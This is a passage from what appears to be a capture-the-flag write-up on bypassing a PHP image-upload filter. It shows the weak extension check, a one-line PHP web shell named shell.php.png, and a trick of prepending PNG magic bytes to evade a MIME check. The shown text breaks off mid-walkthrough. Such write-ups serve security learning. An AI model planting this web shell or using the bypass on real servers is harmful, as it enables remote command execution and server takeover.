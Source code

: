 ```
upload.php

list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
```
The code only accepts image extensions, although it doesn’t check if it has any other extension before them. This can be exploited by adding “.php” before a valid extension, which can be exploitable, depending on the Apache configuration. Let’s try uploading a normal PHP shell with a PNG extension first.

```
shell.php.png

<?php
system($_REQUEST['cmd']);
?>
```

As expected, the image gets rejected due to invalid MIME type. The magic bytes for PNG are “`89 50 4E 47 0D 0A 1A 0A`”, which can be added to the beginning of the shell.
![](images/Pasted%20image%2020240925062410.png)
And when we check the file 
```
file shell.php.png 

shell.php.png: PHP script, ASCII text
```
